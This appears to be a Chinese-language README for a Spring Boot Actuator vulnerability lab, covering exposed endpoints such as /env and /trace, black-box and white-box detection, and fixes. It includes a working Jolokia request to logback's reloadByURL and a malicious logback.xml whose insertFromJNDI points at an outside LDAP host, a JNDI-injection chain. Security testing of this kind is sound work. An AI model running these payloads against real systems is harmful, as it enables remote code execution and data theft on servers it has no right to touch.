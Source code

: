 # Actuator 漏洞靶场

## 1、直接信息泄漏

### 利用条件
对外开放，且没有认证配置

### 黑盒检测方式
常见路径 /，/actuator，/monitor。

```
/autoconfig
/configprops
/beans
/dump
/env
/health
/info
/logfile
/mappings
/metrics
/shutdown POST
/trace 泄漏cookie等

```

## 2、JDNI注入

### 利用条件
除以上外，需要有以下依赖

```xml

<!--        jolokia dependency-->
<dependency>
    <groupId>org.jolokia</groupId>
    <artifactId>jolokia-core</artifactId>
    <version>1.6.0</version>
</dependency>

ch.qos.logback:logback-core(由Spring boot自动引入)

+- org.springframework.boot:spring-boot-starter-web:jar:1.4.7.RELEASE:compile
[INFO] |  +- org.springframework.boot:spring-boot-starter:jar:1.4.7.RELEASE:compile
[INFO] |  |  +- org.springframework.boot:spring-boot:jar:1.4.7.RELEASE:compile
[INFO] |  |  +- org.springframework.boot:spring-boot-autoconfigure:jar:1.4.7.RELEASE:compile
[INFO] |  |  +- org.springframework.boot:spring-boot-starter-logging:jar:1.4.7.RELEASE:compile
[INFO] |  |  |  +- ch.qos.logback:logback-classic:jar:1.1.11:compile
[INFO] |  |  |  |  \- ch.qos.logback:logback-core:jar:1.1.11:compile
[INFO] |  |  |  +- org.slf4j:jcl-over-slf4j:jar:1.7.25:compile
[INFO] |  |  |  +- org.slf4j:jul-to-slf4j:jar:1.7.25:compile
[INFO] |  |  |  \- org.slf4j:log4j-over-slf4j:jar:1.7.25:compile
[INFO] |  |  +- org.springframework:spring-core:jar:4.3.9.RELEASE:compile
[INFO] |  |  \- org.yaml:snakeyaml:jar:1.17:runtime

```
### 黑盒扫描

打DNS记录说明即可。

```xml
http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/dns.log!/logback.xml
```
手工验证：

（1）在dns.log服务器上存放logback.xml。
内容为：
```xml
<configuration>
<!--执行LADAP服务器，传入lookup（）进行LDAP注入-->
  <insertFromJNDI env-entry-name="ldap://ldapserver.com:1389/jndi" as="appName" />
</configuration>
```
（2）在ldapserver.com上搭建LDAP服务。

## 3、利用/env里用的内容进行攻击

检测的话，直接/env有啥，甲方自家的话直接 推高危漏洞了。

参考https://www.veracode.com/blog/research/exploiting-spring-boot-actuators即可。

# 白盒扫描

直接扫描是否存在dependency以及是否有安全配置。

```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-actuator</artifactId>
</dependency>
```

是否启动了安全配置(可能是yaml,xml,properties文件)

```xml

management.security.enabled=true

security.user.name=xxxxx

security.user.password=xxxxxx
```

## 漏洞修复

### 方式1：禁用所有接口

```xml
endpoints.enabled = false
```

### 方式2：启动安全配置

```xml
management.port=8099

management.security.enabled=true

security.user.name=xxxxx

security.user.password=xxxxxx
```
